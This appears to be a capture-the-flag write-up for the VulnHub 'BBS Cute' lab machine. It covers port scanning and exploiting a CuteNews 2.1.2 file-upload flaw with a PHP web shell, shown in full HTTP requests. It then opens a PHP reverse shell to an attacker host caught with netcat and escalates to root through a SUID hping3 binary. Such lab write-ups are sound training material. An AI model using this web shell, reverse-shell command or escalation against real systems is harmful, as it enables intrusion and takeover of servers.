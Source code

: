 ```yaml
---
layout: post
author: H4
---
```


# PG VULNHUB BBS Cute
[Details](https://www.vulnhub.com/entry/bbs-cute-102,567/)
## discovery
### portscan
```bash
$ nmap -Pn 192.168.55.128
```
- 22 (OpenSSH)
- 80 (Apache)
- 88 (Nginx)
- 110 (pop3)
- 995 (pop3)

### web application
- use some kind of dirbuster like gobuster or dirb to identify the `index.php`
- cutenews 2.1.2 is installed on the target

---

## exploitation
```cutenews 2.1.2 is vulnerable to an rce via file upload (https://www.exploit-db.com/exploits/48800)```

- register a new account
- perform an avatar upload to upload a shell

```http
POST /index.php HTTP/1.1
Host: 192.168.55.128
Content-Length: 1199
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.55.128
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPcKAGDM5KHHUBCDz
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.55.128/index.php?mod=main&opt=personal
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: CUTENEWS_SESSION=qujdjltcojbtb3glgfsc3guqum
Connection: close

------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="mod"

main
------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="opt"

personal
------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="__signature_key"

61617a044cb8af8982f290744a00cd7a-hacker
------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="__signature_dsi"

db5cf5e82f5e647c292b0a2587709c4f
------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="editpassword"


------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="confirmpassword"


------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="editnickname"

hacker
------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="avatar_file"; filename="shell.php"
Content-Type: image/gif

GIF8;\n<?php system($_REQUEST['cmd']); ?>

------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="more[site]"


------WebKitFormBoundaryPcKAGDM5KHHUBCDz
Content-Disposition: form-data; name="more[about]"


------WebKitFormBoundaryPcKAGDM5KHHUBCDz--

```

```http
HTTP/1.1 200 OK
Date: Thu, 20 Jan 2022 20:47:07 GMT
Server: Apache/2.4.38 (Debian)
Expires: Sat, 26 Jul 1997 05:00:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
X-Frame-Options: sameorigin
Last-Modified: Thu, 20 Jan 2022 20:47:07 GMT
Cache-Control: post-check=0, pre-check=0
Accept-Charset: UTF-8
Vary: Accept-Encoding
Content-Length: 7553
Connection: close
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html lang="en">
...
```

- execute commands

```http
GET /uploads/avatar_hacker_shell.php?cmd=whoami HTTP/1.1
Host: 192.168.55.128
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: CUTENEWS_SESSION=qujdjltcojbtb3glgfsc3guqum
Connection: close
```

```http
HTTP/1.1 200 OK
Date: Thu, 20 Jan 2022 20:52:09 GMT
Server: Apache/2.4.38 (Debian)
Content-Length: 16
Connection: close
Content-Type: text/html; charset=UTF-8

GIF8;\nwww-data
```

---

## post exploitation
### get reverse shell
payload: ```php -r '$sock=fsockopen("192.168.49.89",443);exec("/bin/sh -i <&3 >&3 2>&3");'```
#### request 
```http
GET /uploads/avatar_hacker_shell.php?cmd=php+-r+'$sock%3dfsockopen("192.168.49.55",443)%3bexec("/bin/sh+-i+<%263+>%263+2>%263")%3b' HTTP/1.1
Host: 192.168.55.128
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: CUTENEWS_SESSION=qujdjltcojbtb3glgfsc3guqum
Connection: close
````

#### listener
```bash
$ nc -lvp 443
listening on [any] 443 ...
192.168.55.128: inverse host lookup failed: Unknown host
connect to [192.168.49.55] from (UNKNOWN) [192.168.55.128] 36152
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

### get first flag
```bash
$ pwd
/var/www
$ cat local.txt
13e7c6be29c**********413f552260ec
```
-> ```13e7c6be29c*********413f552260ec```

### priv esc
look for SUID binaries
```bash
$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
...
-rwsr-sr-x 1 root root 156808 Sep  6  2014 /usr/sbin/hping3
...
$ /usr/sbin/hping3
hping3> /bin/sh -p
# whoami
root
```

### get second flag
```bash
# cd /root
# ls
proof.txt  root.txt
# cat root.txt
Your flag is in another file...
# cat proof.txt
a39413f0559f*********ac83c86deb
```
-> ```a39413f0559f**********ac83c86deb```
